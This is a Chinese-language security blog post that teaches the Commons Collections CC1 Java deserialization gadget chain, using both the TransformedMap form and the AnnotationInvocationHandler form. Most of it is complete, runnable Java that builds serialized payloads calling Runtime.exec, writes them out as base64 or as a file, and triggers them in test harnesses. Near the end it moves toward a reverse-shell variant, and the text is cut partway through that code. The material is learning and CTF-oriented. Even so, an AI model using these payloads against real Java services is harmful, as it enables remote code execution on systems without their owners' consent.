








+++
title= "Java反序列化之CC1"
slug= "java-deserialization-cc1"
description= "TransformedMap&&LazyMap"
date= "2025-09-01T23:48:02+08:00"
lastmod= "2025-09-01T23:48:02+08:00"
image= ""
license= ""
categories= ["Javasec"]
tags= [""]

+++

友情提醒：不能跟进JDK改一下这里



这里会选择两种CC1来学习，一条是网上普遍的有反射的，还有一条就是P牛的纯净版

## CC1纯净版

```java
package Base.Unserialize.CC;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.util.HashMap;
import java.util.Map;


public class CommonCollections1 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.getRuntime()),
                new InvokerTransformer("exec", new Class[]{String[].class},
                        new Object[]
                                {new String[]{"open","-a","Calculator"}}),
        };
        Transformer transformerChain = new
                ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map outerMap = TransformedMap.decorate(innerMap, null,
                transformerChain);
        outerMap.put("test", "xxxx");
    }
}
```



运行完之后就会弹出计算器，但是这是为什么呢，我们先了解“Transformer”家族一下

**TransformedMap：**

TransformedMap用于对Java标准数据结构Map做一个修饰，被修饰过的Map在添加新的元素时，将可以执行一个回调。我们通过下面这行代码对innerMap进行修饰，传出的outerMap即是修饰后的Map:

```java
MapouterMap=TransformedMap.decorate(innerMap,keyTransformer, valueTransformer);
```

其中，keyTransformer是处理新元素的Key的回调，valueTransformer是处理新元素的value的回调。 我们这里所说的”回调“，并不是传统意义上的一个回调函数，而是一个实现了Transformer接口的类。

**Transformer：**

Transformer是一个接口，它只有一个待实现的方法:

```java
public interface Transformer {
    public Object transform(Object input);
}
```

TransformedMap在转换Map的新元素时，就会调用transform方法，这个过程就类似在调用一个”回调 函数“，这个回调的参数是原始对象。因此，一般来说，Transformer是用来包装多种Transformer最后形transformerChain，方便回调

**ConstantTransformer：**

ConstantTransformer是实现了Transformer接口的一个类，它的过程就是在构造函数的时候传入一个 对象，并在transform方法将这个对象再返回:

```java
public ConstantTransformer(Object constantToReturn) {
  super();
  iConstant = constantToReturn;
}
public Object transform(Object input) {
  return iConstant;
}
```

所以他的作用其实就是包装任意一个对象，在执行回调时返回这个对象，进而方便后续操作。

**InvokerTransformer：**

InvokerTransformer是实现了Transformer接口的一个类，这个类可以用来执行任意方法，这也是反序列化能执行任意代码的关键。

在实例化这个InvokerTransformer时，需要传入三个参数，第一个参数是待执行的方法名，第二个参数 是这个函数的参数列表的参数类型，第三个参数是传给这个函数的参数列表:

```java
public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
  super();
  iMethodName = methodName;
  iParamTypes = paramTypes;
  iArgs = args;
}
```

后来回调的transform方法，就是执行了input对象的iMethodName方法:

```java
public Object transform(Object input) {
  if (input == null) {
    return null;
  }
  try {
    Class cls = input.getClass();
    Method method = cls.getMethod(iMethodName, iParamTypes);
    return method.invoke(input, iArgs);
  } catch (NoSuchMethodException ex) {
    throw new FunctorException("InvokerTransformer: The method '" +
iMethodName + "' on '" + input.getClass() + "' does not exist");
  } catch (IllegalAccessException ex) {
    throw new FunctorException("InvokerTransformer: The method '" +
iMethodName + "' on '" + input.getClass() + "' cannot be accessed");
  } catch (InvocationTargetException ex) {
    throw new FunctorException("InvokerTransformer: The method '" +
iMethodName + "' on '" + input.getClass() + "' threw an exception", ex);
  }
}
```

**ChainedTransformer**

ChainedTransformer也是实现了Transformer接口的一个类，它的作用是将内部的多个Transformer串 在一起。通俗来说就是，前一个回调返回的结果，作为后一个回调的参数传入，



它的代码也比较简单:

```java
public ChainedTransformer(Transformer[] transformers) {
  super();
  iTransformers = transformers;
}
public Object transform(Object object) {
  for (int i = 0; i < iTransformers.length; i++) {
    object = iTransformers[i].transform(object);
  }
  return object;
}
```

了解完了“Transformer”家族，就可以很简单的理解P牛写的CC1纯净版了，如下图



简单的调试一下，主要是看最后的回调

```java
    public Object put(Object key, Object value) {
        key = this.transformKey(key);
        value = this.transformValue(value);
        return ((AbstractMapDecorator)this).getMap().put(key, value);
    }
```

跟进第二行的`transformValue`

```java
    protected Object transformValue(Object object) {
        return this.valueTransformer == null ? object : this.valueTransformer.transform(object);
    }
```

`transform`会对前面定义的两个Transformer回调



```java
    public Object transform(Object object) {
        for(int i = 0; i < this.iTransformers.length; ++i) {
            object = this.iTransformers[i].transform(object);
        }

        return object;
    }
```

调用栈如下

```java
at org.apache.commons.collections.functors.ChainedTransformer.transform(ChainedTransformer.java:122)
at org.apache.commons.collections.map.TransformedMap.transformValue(TransformedMap.java:141)
at org.apache.commons.collections.map.TransformedMap.put(TransformedMap.java:185)
at Base.Unserialize.CC.CommonCollections1.main(CommonCollections1.java:25)
```

但是当我写成生成序列化payload，就像平时大家做题一样的时候发生了一件事，就是始终不能成功，貌似是这么去写`transformers`是不可序列化的，这个时候我们反射即可

```java
package Base.Unserialize.CC;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.util.HashMap;
import java.util.Map;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.util.Base64;

public class CommonCollections1Seri {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String[].class},
                        new Object[]{new String[]{"open","-a","Calculator"}}),
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
        //outerMap.put("test", "xxxx");

        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(outerMap);
        oos.close();

        String base64Payload = Base64.getEncoder().encodeToString(bos.toByteArray());
        System.out.println(base64Payload);
    }
}
```

写个测试能否成功反序列化的类，最后为了预期的命令执行，也就是`TransformedMap`成功的回调，我们必须进行put，因此还要加个强制类型转换

```java
package Base.Unserialize.CC;

import java.io.ByteArrayInputStream;
import java.io.ObjectInputStream;
import java.util.Base64;
import java.util.Map;
import java.util.Scanner;

public class DeserializeTest {
    public static void main(String[] args) {
        Scanner scanner = new Scanner(System.in);

        System.out.println("请输入 Base64 编码的 Payload：");
        String base64Payload = scanner.nextLine();

        try {
            byte[] data = Base64.getDecoder().decode(base64Payload);

            ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(data));
            Object obj = ois.readObject();
            ois.close();

            System.out.println("反序列化成功！对象类型: " + obj.getClass().getName());

            if (obj instanceof Map) {
                Map<String, String> map = (Map<String, String>) obj;
                map.put("trigger", "value");
            }
        } catch (Exception e) {
            e.printStackTrace();
        } finally {
            scanner.close();
        }
    }
}
```



也可以保存到bin文件里面

```java
package Base.Unserialize.CC;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.util.HashMap;
import java.util.Map;

public class CommonCollections1Seri2 {
    public static void main(String[] args) {
        try {
            // 构造 Transformer 链
            Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class},
                                       new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class},
                                       new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String[].class},
                                       new Object[]{new String[]{"open", "-a", "Calculator"}}),
            };


            Transformer transformerChain = new ChainedTransformer(transformers);
            Map innerMap = new HashMap();
            Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
            //outerMap.put("test", "xxxx");

            try (FileOutputStream fos = new FileOutputStream("payload.bin");
                 ObjectOutputStream oos = new ObjectOutputStream(fos)) {
                oos.writeObject(outerMap);
                System.out.println("Payload 已保存到 payload.bin");
            }
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

```java
package Base.Unserialize.CC;

import java.io.FileInputStream;
import java.io.ObjectInputStream;
import java.util.Map;

public class DeserializeTest1 {
    public static void main(String[] args) {
        try {
            try (FileInputStream fis = new FileInputStream("payload.bin");
                 ObjectInputStream ois = new ObjectInputStream(fis)) {

                Object obj = ois.readObject();
                System.out.println("反序列化成功！对象类型: " + obj.getClass().getName());

                if (obj instanceof Map) {
                    Map<String, String> map = (Map<String, String>) obj;
                    map.put("trigger", "value");
                }
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

不过其实这些都并不是真实的POC，仅仅只是本地用来calc的，不能成功利用，如果少了强制转换就要歇菜

## CC1 TransformedMap POC编写

前面我们说到，触发这个漏洞的核心，在于我们需要向Map中加入一个新的元素。在demo中，我们可 以手工执行`outerMap.put("test", "xxxx");`来触发漏洞，但在实际反序列化时，我们需要找到一个类，它在反序列化的readObject逻辑里有类似的写入操作。

这个类就是 `sun.reflect.annotation.AnnotationInvocationHandler`，我们查看它的 `readObject` 方法（这是8u71以前的代码，8u71以后做了一些修改）:

```java
private void readObject(java.io.ObjectInputStream s)
    throws java.io.IOException, ClassNotFoundException {
    s.defaultReadObject();
    // Check to make sure that types have not evolved incompatibly

    AnnotationType annotationType = null;
    try {
        annotationType = AnnotationType.getInstance(type);
    } catch (IllegalArgumentException e) {
        // Class is no longer an annotation type; time to punch out
        throw new java.io.InvalidObjectException("Non-annotation type in annotation serial stream");
    }
    
    Map<String, Class<?>> memberTypes = annotationType.memberTypes();
    // If there are annotation members without values, that
    // situation is handled by the invoke method.
    for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
        String name = memberValue.getKey();
        Class<?> memberType = memberTypes.get(name);
        if (memberType != null) {  // i.e. member still exists
            Object value = memberValue.getValue();
            if (!(memberType.isInstance(value) || value instanceof ExceptionProxy)) {
                memberValue.setValue(
                    new AnnotationTypeMismatchExceptionProxy(
                        value.getClass() + "[" + value + "]").setMember(
                        annotationType.members().get(name)));
            }
        }
    }
}
```

很明显进行了强制转换`for (Map.Entry<String, Object> memberValue : memberValues.entrySet())`再进行键值处理

```java
memberValue.setValue(new AnnotationTypeMismatchExceptionProxy(value.getClass() + "[" + value + "]").setMember(annotationType.members().get(name)));
```

所以我们对代码进行替换，需要创建一个AnnotationInvocationHandler对象，并将前面构造的 HashMap设置进来，但是需要去反射把map放进去:

```java
Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
construct.setAccessible(true);
Object obj = construct.newInstance(Retention.class, outerMap);
```

不过，为什么需要反射呢？其实很简单，前面学习反射的时候我们就知道，因为我们必须要保证所有对象可被序列化不过我并没成功执行，因为我是8u221，https://hg.openjdk.org/jdk8u/jdk8u/jdk/rev/f8a528d0379d 在8u71以后大概是2015年12月的时候，Java 官方修改了`sun.reflect.annotation.AnnotationInvocationHandler`的readObject函数



可以看到在赋值之前新建了一个`LinkedHashMap`而不是我们存入的map了所以自然会失败

所以我们只需要安装一个低于8u71版本的jdk就好了，不过在写poc的时候有个小问题，如果没往`innerMap`里面传参实际上是不能成功执行命令的，debug一下，跟进`AnnotationInvocationHandler:readObject`



会发现在触发之前，需要表内有值，解决这个问题很简单，但是原因好像很复杂，解决

1. sun.reflect.annotation.AnnotationInvocationHandler 构造函数的第一个参数必须是
   Annotation的子类，且其中必须含有至少一个方法，假设方法名是X
2. 被 TransformedMap.decorate 修饰的Map中必须有一个键名为X的元素

```java
/*
 * Copyright (c) 2003, 2006, Oracle and/or its affiliates. All rights reserved.
 * ORACLE PROPRIETARY/CONFIDENTIAL. Use is subject to license terms.
 *
 *
 *
 *
 *
 *
 *
 *
 *
 *
 *
 *
 *
 *
 *
 *
 *
 *
 *
 *
 */

package java.lang.annotation;

/**
 * Indicates how long annotations with the annotated type are to
 * be retained.  If no Retention annotation is present on
 * an annotation type declaration, the retention policy defaults to
 * {@code RetentionPolicy.CLASS}.
 *
 * <p>A Retention meta-annotation has effect only if the
 * meta-annotated type is used directly for annotation.  It has no
 * effect if the meta-annotated type is used as a member type in
 * another annotation type.
 *
 * @author  Joshua Bloch
 * @since 1.5
 */
@Documented
@Retention(RetentionPolicy.RUNTIME)
@Target(ElementType.ANNOTATION_TYPE)
public @interface Retention {
    RetentionPolicy value();
}
```

所以该怎么传也很清楚

```java
package Base.Unserialize.CC;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.*;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.util.*;

public class CommonCollections1Seri3 {
    public static void main(String[] args) {
        try {
            // 构造 Transformer 链
            Transformer[] transformers = new Transformer[]{
                    new ConstantTransformer(Runtime.class),
                    new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class},
                            new Object[]{"getRuntime", new Class[0]}),
                    new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class},
                            new Object[]{null, new Object[0]}),
                    new InvokerTransformer("exec", new Class[]{String[].class},
                            new Object[]{new String[]{"open", "-a", "Calculator"}}),
            };


            Transformer transformerChain = new ChainedTransformer(transformers);
            Map innerMap = new HashMap();
            innerMap.put("value", "xxxx");
            Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
            //outerMap.put("value", "yyy");
            Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
            Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
            construct.setAccessible(true);
            InvocationHandler handler = (InvocationHandler) construct.newInstance(Retention.class, outerMap);

            ByteArrayOutputStream barr = new ByteArrayOutputStream();
            ObjectOutputStream oos = new ObjectOutputStream(barr);
            oos.writeObject(handler);
            oos.close();

            System.out.println(barr);
            ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
            Object o = (Object) ois.readObject();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

不过这也还不是我们平时用到的，平时CTF中常常出现的是base64编码的，在 `ObjectOutputStream` 序列化后，将字节数组转换为**Base64**

```java
            byte[] serializedData = barr.toByteArray();
            String base64Data = Base64.getEncoder().encodeToString(serializedData);
            System.out.println(base64Data);
```

加上就好了，而一般Java里面不打内存马的情况反弹shell会比较方便，但是由于 Java 的 `Runtime.getRuntime().exec()` 不能直接解析 Bash 重定向符号 （`>&`、`<`、`|` 等），我们需要使用 Base64 编码 或 数组方式 来绕过限制。

```java
package Base.Unserialize.CC;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.*;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.util.*;

public class CommonCollections1Seri3 {
    public static void main(String[] args) {
        try {
            // 构造 Transformer 链
            Transformer[] transformers = new Transformer[]{
                    new ConstantTransformer(Runtime.class),
                    new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class},
                            new Object[]{"getRuntime", new Class[0]}),
